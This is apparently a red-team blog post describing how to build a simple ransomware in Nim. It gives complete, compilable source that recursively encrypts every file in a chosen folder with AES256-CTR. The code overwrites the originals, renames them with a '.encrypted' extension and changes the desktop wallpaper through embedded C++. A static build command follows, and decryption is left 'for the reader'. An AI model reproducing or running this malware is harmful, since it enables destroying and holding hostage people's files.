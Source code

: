 ```yaml
---
title: Exploring Nim language - Writing a ransomware
author: Ilan Kalendarov
date: 2021-03-01 16:10:00 +0800
categories: [Red Team]
tags: [ransomware, red team]

---
```


## Introduction

------

During one of my engagements I needed to encrypt an asset on the domain so, I started to explore what would be the simplest yet not easy to decrypt way of doing so. I came by the Nim language and started building my "Ransomware".

The Nim language was really interesting to me as it compiles to C, C++ or JavaScript and has a syntax that resembles Python.  I noticed the language is getting more popular on Twitter thanks to [@byt3bl33d3r](https://twitter.com/byt3bl33d3r) and his amazing repo [OffensiveNim](https://github.com/byt3bl33d3r/OffensiveNim). After exploring I saw a few new malware that has been [rewritten in  Nim](https://www.bleepingcomputer.com/news/security/trickbots-bazarbackdoor-malware-is-now-coded-in-nim-to-evade-antivirus/) So I decided to hop on the Nim trend and try to write simple yet powerful ransomware.



## Preparing the environment 

------

First, we need to prepare our setup. You can find the installation page [here](https://nim-lang.org/install.html). After installing Nim we need to set up our dev environment. You can follow the steps inside the [OffensiveNim](https://github.com/byt3bl33d3r/OffensiveNim#setting-up-a-dev-environment) repo.  Now we can actually start coding



## The encryption

------

Inside the OffensiveNim repo, there's a [script](https://github.com/byt3bl33d3r/OffensiveNim/blob/master/src/encrypt_decrypt_bin.nim) that shows how to handle encryption in Nim, AES256-CTR to be specific, It has all the information we need to start writing our encryption part of the ransomware.  I want to be able to encrypt any given folder recursively, Get the desired folder and key as arguments,Change the file extension and also change the wallpaper (Probably with Windows API). At this point the code should look like this:

```nim
import os
import strformat
import base64
import nimcrypto
import nimcrypto/sysrand

func toByteSeq*(str: string): seq[byte] {.inline.} =
    # Converts a string to the corresponding byte sequence
    @(str.toOpenArrayByte(0, str.high))

let
    password: string = paramStr(1) # Our secret key
    path: string = paramStr(2)	# Full path to the folder
    
for file in walkDirRec path: # For any file/folder inside our folder
   let fileSplit = splitFile(file)
   if fileSplit.ext != ".encrypted": # Checking if the file is not encrypted yet
    echo fmt"[*] Encrypting: {file}"
    var
        inFileContents: string = readFile(file) # Getting the content of the file
        plaintext: seq[byte] = toByteSeq(inFileContents) # Formating the content to bytes
        ectx: CTR[aes256]
        key: array[aes256.sizeKey, byte]
        iv: array[aes256.sizeBlock, byte]
        encrypted: seq[byte] = newSeq[byte](len(plaintext))

    iv = [byte 183, 142, 238, 156, 42, 43, 248, 100, 125, 249, 192, 254, 217, 222, 133, 149]
    var expandedKey = sha256.digest(password)
    copyMem(addr key[0], addr expandedKey.data[0], len(expandedKey.data))
        
        
    ectx.init(key, iv)
    ectx.encrypt(plaintext, encrypted)
    ectx.clear()

    let encodedCrypted = encode(encrypted) # This var contains the encrypted data
    let finalFile = file & ".encrypted" # Giving a new extension
    moveFile(file, finalFile) # Changing the file extension
    writeFile(finalFile, encodedCrypted) # Writing the encrypted data to the file (Deletes everything  that was there before)

```

Lets try it ! 

![1encrypt](C:\Users\ilanka\Documents\GitHub\IlanKalendarov.github.io\Images\Ransomware\1encrypt.gif)

Great it works perfectly. Now, let's try to change the wallpaper. I did some searching and came by the above [API Call](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-systemparametersinfow) from Microsoft - `SystemParametersInfoW`. According to the docs - 

> Retrieves or sets the value of one of the system-wide parameters. This function can also update the user profile while setting a parameter.

In particular the `SPI_SETDESKWALLPAPER` was the flag that was interesting. With the following C++ code we'll be able to change the wallpaper:

```c++
#include <iostream>
#include <Windows.h>

int WallPaper()
{
   const wchar_t *path = L"C:\\Users\\Public\\pic.jpg";
   SystemParametersInfoW(SPI_SETDESKWALLPAPER, 0, (void *)path, SPIF_UPDATEINIFILE);      
   return 0;
}
```

Now to the fun part, We don't need to work hard here with trying to convert the C++ code to Nim, We can just copy-paste (with some modification) the code directly to Nim !

This would be the final code:

```nim
import os
import strformat
import base64
import nimcrypto
import nimcrypto/sysrand

func toByteSeq*(str: string): seq[byte] {.inline.} =
    # Converts a string to the corresponding byte sequence
    @(str.toOpenArrayByte(0, str.high))

let
    password: string = paramStr(1) # Our secret key
    path: string = paramStr(2)	# Full path to the folder
 
# Start of the C++ code
{.emit: """
#include <iostream>
#include <Windows.h>

int Wallpaper()
{
   const wchar_t *path = L"C:\\Users\\Public\\pic.jpg";
   SystemParametersInfoW(SPI_SETDESKWALLPAPER, 0, (void *)path, SPIF_UPDATEINIFILE);      
   return 0;
}
""".}

# Importing the code to nim
proc Wallpaper(): int
    {.importcpp: "Wallpaper", nodecl.}
    
var result = Wallpaper()

for file in walkDirRec path: # For any file/folder inside our folder
   let fileSplit = splitFile(file)
   if fileSplit.ext != ".encrypted": # Checking if the file is not encrypted yet
    echo fmt"[*] Encrypting: {file}"
    var
        inFileContents: string = readFile(file) # Getting the content of the file
        plaintext: seq[byte] = toByteSeq(inFileContents) # Formating the content to bytes
        ectx: CTR[aes256]
        key: array[aes256.sizeKey, byte]
        iv: array[aes256.sizeBlock, byte]
        encrypted: seq[byte] = newSeq[byte](len(plaintext))

    iv = [byte 183, 142, 238, 156, 42, 43, 248, 100, 125, 249, 192, 254, 217, 222, 133, 149]
    var expandedKey = sha256.digest(password)
    copyMem(addr key[0], addr expandedKey.data[0], len(expandedKey.data))
        
        
    ectx.init(key, iv)
    ectx.encrypt(plaintext, encrypted)
    ectx.clear()

    let encodedCrypted = encode(encrypted) # This var contains the encrypted data
    let finalFile = file & ".encrypted" # Giving a new extension
    moveFile(file, finalFile) # Changing the file extension
    writeFile(finalFile, encodedCrypted) # Writing the encrypted data to the file (Deletes everything  that was there before)
```

Now, I'll compile the code with the above flags:

`nim cpp -d:release --app=console --opt:speed --passl="-static -static-libgcc -static-libstdc++" enc.nim`

And the result :

![2encrypt](C:\Users\ilanka\Documents\GitHub\IlanKalendarov.github.io\Images\Ransomware\2encrypt.gif)

I'll let you figure out the decryption part :)



## Conclusion 

------

As you can see, Nim is a really powerful language, It took me an hour to build this "Ransomware" and I think we could really expand the functionality of the program in the future. Maybe I'll make "Exploring Nim language" a series who knows.  



## Links & Resources

------

- [OffensiveNim](https://github.com/byt3bl33d3r/OffensiveNim)

* [Nim language](https://nim-lang.org/)

